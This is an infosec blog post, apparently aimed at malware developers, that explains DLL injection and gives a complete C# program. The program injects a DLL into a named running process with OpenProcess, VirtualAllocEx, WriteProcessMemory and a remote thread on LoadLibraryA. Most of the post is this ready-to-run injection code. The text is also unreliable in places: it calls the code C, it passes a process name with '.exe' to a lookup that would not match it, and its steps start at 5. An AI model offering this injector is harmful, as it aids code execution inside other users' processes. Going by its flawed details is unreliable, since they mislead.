 ```yaml
---
layout: single
title: "Payload Unleashed: DLL Injection"
date: 2024-02-28
classes: wide
header:
  teaser: /assets/images/maldev.png
categories:
  - infosec
tags:
  - windows
  - malware
---
```


Dynamic Link Library (DLL) injection is a technique used in the realm of software development and cybersecurity. It involves inserting a DLL into the address space of a running process, thereby altering its behavior or extending its functionality. While primarily used for legitimate purposes such as debugging and system monitoring, DLL injection can also be leveraged for malicious activities like code execution and privilege escalation. 

In this blog post, we'll delve into the workings of DLL injection, its various types, and which nasty things can we do with it.

# Understanding DLL Injection

At its core, DLL injection is about injecting external code into the memory space of a running process. This allows the injected code to execute within the context of the target process, granting it access to resources and functionalities it wouldn't normally have. The injection process typically involves the following steps:

1. **Selection of Target Process**: The first step is to identify the process into which the DLL will be injected. This could be any running application or system process.
    
2. **Loading the DLL**: The DLL to be injected is loaded into the memory space of the target process. This can be achieved through various means, including using APIs like LoadLibrary or manually mapping the DLL into memory. We will address this techniques later. 
    
3. **Injection**: Once the DLL is loaded into the target process, the next step is to execute its code within that process. This is often achieved by creating a remote thread within the target process and directing it to execute a specific function within the injected DLL.

# Types of DLL Injection

DLL injection techniques can be classified into several categories, each with its own advantages and use cases. Some common types include:

1. **Load-time Injection**: In load-time injection, the DLL is loaded into the target process's address space at the time of process creation. This can be achieved by specifying the DLL in the process's import table or by modifying the process's environment variables to include the DLL's path.
    
2. **Run-time Injection**: Run-time injection involves injecting the DLL into a running process. This can be done using APIs like CreateRemoteThread or by directly modifying the target process's memory space to load the DLL.
    
3. **Reflective Injection**: Reflective injection is a more advanced technique where the injected DLL is capable of loading and executing itself without relying on the traditional Windows DLL loading mechanisms. This makes it harder to detect and trace compared to other injection methods. 
    
4. **Code Injection**: In code injection, rather than injecting an entire DLL, small snippets of code are injected into the target process. This code is then executed within the context of the process, allowing for more granular control over its behavior.

# Hands-On: Implementing DLL Injection in C

In this hands-on section, we'll explore how to implement DLL injection using C code. We'll focus on run-time injection, which involves injecting a DLL into a running process. For this demonstration, we'll create a simple console application to perform the injection.

To carry out this section we will need to import the following functions from the kernel32.dll:
- OpenProcess(): This function is used to obtain a handle to the target process, which is required for various operations such as reading and writing memory or creating remote threads within the target process.

- GetModuleHandle(): It retrieves a handle to the specified module within the calling process. In this case, it's used to get a handle to the kernel32.dll module to obtain the address of the LoadLibraryA function.

- GetProcAddress(): This function retrieves the address of an exported function or variable from a specified dynamic-link library (DLL) module. Here, it's used to get the address of the LoadLibraryA function within the kernel32.dll module.

- VirtualAllocEx(): It is used to reserve or commit a region of memory within the virtual address space of the target process. In this code, it allocates memory within the target process to store the path of the DLL to be injected.

- WriteProcessMemory(): This function writes data to an area of memory in a specified process. Here, it writes the path of the DLL to be injected into the allocated memory space within the target process.

- CreateRemoteThread(): This function creates a new thread in the address space of the target process, starting execution at the specified address. In this code, it creates a remote thread within the target process to execute the LoadLibraryA function, effectively loading the DLL into the target process.


```c
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace DLLInjectionDemo
{
    class Program
    {
        // Import necessary Win32 API functions
        [DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint dwDesiredAccess, bool bInheritHandle, int dwProcessId);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        static extern IntPtr GetModuleHandle(string lpModuleName);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out UIntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        static void Main(string[] args)
        {
            string targetProcessName = "targetProcess.exe"; // Change this to the name of the target process

            // Find the target process by name
            Process[] processes = Process.GetProcessesByName(targetProcessName);
            if (processes.Length == 0)
            {
                Console.WriteLine("Target process not found.");
                return;
            }

            Process targetProcess = processes[0];

            // Get the handle of the target process
            IntPtr processHandle = OpenProcess(0x1F0FFF, false, targetProcess.Id);
            if (processHandle == IntPtr.Zero)
            {
                Console.WriteLine("Failed to open target process.");
                return;
            }

            // Load the DLL into memory
            string dllPath = "C:\\path\\to\\your\\injected.dll"; // Change this to the path of your DLL
            IntPtr loadLibraryAddr = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
            IntPtr allocMemAddr = VirtualAllocEx(processHandle, IntPtr.Zero, (uint)((dllPath.Length + 1) * Marshal.SizeOf(typeof(char))), 0x1000, 0x40);

            // Write the DLL path into the target process's memory
            UIntPtr bytesWritten;
            WriteProcessMemory(processHandle, allocMemAddr, System.Text.Encoding.Default.GetBytes(dllPath), (uint)((dllPath.Length + 1) * Marshal.SizeOf(typeof(char))), out bytesWritten);

            // Create a remote thread in the target process to load the DLL
            CreateRemoteThread(processHandle, IntPtr.Zero, 0, loadLibraryAddr, allocMemAddr, 0, IntPtr.Zero);

            Console.WriteLine("DLL injected successfully.");

            // Close the handle to the target process
            CloseHandle(processHandle);
        }

        // Import CloseHandle function
        [DllImport("kernel32.dll")]
        static extern bool CloseHandle(IntPtr hObject);
    }
}
```

Replace `"targetProcess.exe"` with the name of the target process you want to inject the DLL into, and `"C:\\path\\to\\your\\injected.dll"` with the path to the DLL you want to inject.

5. Build the project to ensure there are no compilation errors.
6. Run the console application. If the target process is found and the DLL injection is successful, you should see the message "DLL injected successfully."

Note: Make sure to test the DLL injection code responsibly and only on processes you have permission to interact with. Unauthorized DLL injection into system processes or third-party applications can lead to system instability or security vulnerabilities.

This hands-on example demonstrates the basics of DLL injection in C# using the Windows API functions. Further customization and error handling can be added based on specific requirements and scenarios.